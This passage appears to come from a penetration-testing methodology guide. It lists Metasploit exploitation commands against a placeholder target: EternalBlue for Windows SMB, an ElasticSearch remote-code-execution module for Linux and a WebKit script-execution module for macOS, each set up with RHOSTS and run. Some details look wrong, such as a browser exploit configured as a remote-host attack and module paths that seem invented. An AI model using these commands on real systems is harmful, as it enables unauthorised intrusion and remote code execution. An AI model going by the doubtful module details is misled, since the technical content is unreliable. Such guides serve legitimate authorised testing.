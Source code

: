This command will initiate a vulnerability scan targeting macOS systems to check for the Webmin Package Updates Remote Command Execution vulnerability.

Adjust the RHOSTS option to specify the target IP range accordingly for each scan. These commands will help identify vulnerabilities specific to each operating system, facilitating targeted vulnerability assessment and remediation efforts.

### 2.2.5 Password Cracking
Attempting to crack passwords or gain unauthorized access to target systems.

### 2.2.6 Exploitation
Attempting to exploit identified vulnerabilities to gain access or escalate privileges on target systems.

### 2.2.6.1 For Windows Systems:
* Metasploit Module: exploit/windows/smb/ms17_010_eternalblue
* Command:
```
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <target_ip>
exploit
```
* Options:
* RHOSTS: Specifies the target IP address of the Windows system.

This command will initiate the EternalBlue exploit targeting Windows systems to achieve remote code execution on vulnerable SMB versions.

### 2.2.6.2 For Linux Systems:
* Metasploit Module: exploit/linux/http/elastic_search_rce
* Command:
```
use exploit/linux/http/elastic_search_rce
set RHOSTS <target_ip>
exploit
```
* Options:
* RHOSTS: Specifies the target IP address of the Linux system.

This command will initiate the ElasticSearch Remote Code Execution exploit targeting Linux systems.

### 2.2.6.3 For MacOS Systems:
* Metasploit Module: exploit/osx/http/webkit_script_exec
* Command:
```
use exploit/osx/http/webkit_script_exec
set RHOSTS <target_ip>
exploit
```
* Options:
* RHOSTS: Specifies the target IP address of the macOS system.

This command will initiate the WebKit Script Execution exploit targeting macOS systems.
